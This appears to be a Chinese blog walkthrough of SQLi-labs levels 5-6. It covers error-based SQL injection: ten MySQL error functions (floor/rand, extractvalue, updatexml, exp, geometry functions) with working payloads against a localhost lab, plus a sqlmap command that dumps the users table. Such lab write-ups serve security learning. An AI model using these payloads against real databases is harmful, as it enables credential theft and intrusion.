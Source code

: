 ```yaml
---
 title: Sqlilabs通关笔记(5-6)
 date: 2020-01-03 15:40:47
 tags:
 categories:
---
```


## 第五关 基于GET单引号双注入
![2020-1-3-15-50-34-Sqlilabs通关笔记(4-10)](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-3-15-50-34-Sqlilabs%E9%80%9A%E5%85%B3%E7%AC%94%E8%AE%B0(4-10))

### 存在注入点判断

1. 输入单引号测试，有报错信息，返回信息和第一关错误信息一样

2. 不管输入id为多少，页面一直都是 you are in ....猜测正确的页面不变，不会将查询结果打印到页面了，查看源码发现，确实是不输出结果了

```php
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);

	if($row)
	{
  	echo '<font size="5" color="#FFFF00">';	
  	echo 'You are in...........';
  	echo "<br>";
    	echo "</font>";
  	}
	else 
	{
	
	echo '<font size="3" color="#FFFF00">';
	print_r(mysql_error());
	echo "</br></font>";	
	echo '<font color= "#0000ff" font size= 3>';	
	
	}
}
	else { echo "Please input the ID as parameter with numeric value";}
```
**但是会把错误的信息给打印出来**
3. 所以应该用到双注入（也称报错注入），在错误中把要的信息打印出来

### 报错注入方式（十种）
该注入原理可以查找资料，注入方式的有[资料](https://www.cnblogs.com/csyxf/p/10241456.html)可以点击查看，如下只列举常遇到的十种报错注入的方式

- **floor函数注入** 

    * 函数介绍
        - count():查询数量
        - rand()：产生0~1间的随机数
        - floor()：向下取整
        - group by：按指定分类

    * 写法
    > select * from test where id=1 and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)a);

    * 运用
    >  http://localhost/sqlilabs2/Less-5/index.php?id=-1' union select 1,count(*),concat((floor(rand(0)*2)),'--',(select concat(id,'-',username,'-',password) from security.users limit 0,1))x from information_schema.tables group by x%23

    ![2020-1-3-16-33-7-Sqlilabs通关笔记(4-10)](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-3-16-33-7-Sqlilabs%E9%80%9A%E5%85%B3%E7%AC%94%E8%AE%B0(4-10)) 

    * 使用注意
        - payload是在中间concat部分，修改该部分可以执行不同命令
        - 只能用concat连接 ，group_concat不行，且每次只能显示一条数据
        - 要让上述的报错实现，数据库至少要3条数据

- **extractvalue函数注入**
    * 函数介绍
		- 对XML文档进行查询
		- EXTRACTVALUE (XML_document, XPath_string);
		- 第一个参数：XML_document是String格式，为XML文档对象的名称
		- 第二个参数：XPath_string (Xpath格式的字符串)
		- 作用：从目标XML中返回包含所查询值的字符串
    * 写法
		> select * from test where id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)));
    * 运用
		>  http://localhost/sqlilabs2/Less-5/index.php?id=-1' and (extractvalue(1,concat(0x7e,(select group_concat(username) from users),0x7e)))--+
	![2020-1-3-17-0-10-Sqlilabs通关笔记(5-6)](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-3-17-0-10-Sqlilabs%E9%80%9A%E5%85%B3%E7%AC%94%E8%AE%B0(5-6))
    * 使用注意
		- MySQL 5.1.5版本以上才支持该函数
		- 返回的数据限制为32位
		- 可以用substring函数进行数据位移偏转
			>  http://localhost/sqlilabs2/Less-5/index.php?id=-1' and (extractvalue(1,concat(0x7e,(select substring(group_concat(username),1) from users),0x7e)))--+

- **updatexml函数注入**
    * 函数介绍
		- 对XML文档进行修改
		- UPDATEXML (XML_document, XPath_string, new_value);
		- 第一个参数：XML_document是String格式，为XML文档对象的名称
		- 第二个参数：XPath_string (Xpath格式的字符串)
		- 第三个参数：new_value，String格式，替换查找到的符合条件的数据
		- 作用：改变文档中符合条件的节点的值
    * 写法
		> select * from test where id=1 and (updatexml(1,concat(0x7e,(select user()),0x7e),1));
    * 运用
		>  http://localhost/sqlilabs2/Less-5/index.php?id=-1' and (updatexml(1,concat(0x7e,(select SUBSTRING(group_concat(username),12) from users),0x7e),1));--+
	![2020-1-3-17-17-6-Sqlilabs通关笔记(5-6)](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-3-17-17-6-Sqlilabs%E9%80%9A%E5%85%B3%E7%AC%94%E8%AE%B0(5-6))
    * 使用注意
		- MySQL 5.1.5版本以上才支持该函数
		- 返回的数据限制为32位
		- 可以用substring函数进行数据位移偏转

- **geometrycollection函数注入**
    * 函数介绍
    * 写法
		> select * from test where id=1 and geometrycollection((select * from(select * from(select user())a)b));
    * 运用
    * 使用注意

- **multipoint函数注入**
    * 函数介绍
    * 写法
		> select * from test where id=1 and multipoint((select * from(select * from(select user())a)b));
    * 运用
    * 使用注意

- **polygon函数注入**
    * 函数介绍
    * 写法
		> select * from test where id=1 and polygon((select * from(select * from(select user())a)b));
    * 运用
    * 使用注意

- **multipolygon函数注入**
    * 函数介绍
    * 写法
		> select * from test where id=1 and multipolygon((select * from(select * from(select user())a)b));
    * 运用
    * 使用注意

- **linestring函数注入**
    * 函数介绍
    * 写法
		> select * from test where id=1 and linestring((select * from(select * from(select user())a)b));
    * 运用
    * 使用注意

- **multilinestring函数注入**
    * 函数介绍
    * 写法
		> select * from test where id=1 and multilinestring((select * from(select * from(select user())a)b));
    * 运用
    * 使用注意

- **exp函数注入**
    * 函数介绍
    * 写法
		> select * from test where id=1 and exp(~(select * from(select user())a));
    * 运用
    * 使用注意


### SQLMAP注入

直接上payload（第五六题均可用）
```
sqlmap -u "http://127.0.0.1/sqlilabs2/Less-5/index.php?id=1" --technique E -D security -T users --dump
```
![2020-1-3-17-23-39-Sqlilabs通关笔记(1-4)](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-3-17-23-39-Sqlilabs%E9%80%9A%E5%85%B3%E7%AC%94%E8%AE%B0(1-4))